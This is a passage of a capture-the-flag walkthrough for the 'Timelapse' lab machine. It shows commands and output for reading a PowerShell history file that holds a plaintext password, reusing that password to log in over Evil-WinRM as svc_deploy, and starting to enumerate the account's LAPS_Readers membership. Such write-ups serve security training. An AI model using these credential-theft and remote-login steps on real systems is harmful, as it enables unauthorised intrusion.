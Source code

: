 **WinPEAS output**: Powershell History with credential: `svc_deploy : E3R$Q62^12p7PLlC%KWaxuaV`

![image-20240312031528026](./Timelapse.assets/image-20240312031528026.png)

```console
*Evil-WinRM* PS C:\Users\legacyy\desktop> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

```console
└─╼$ evil-winrm -i $IP -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```

### svc_deploy -> admin

Enum svc_deploy user: a special group `LAPS_Readers`

```console
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 11:25:53 AM

```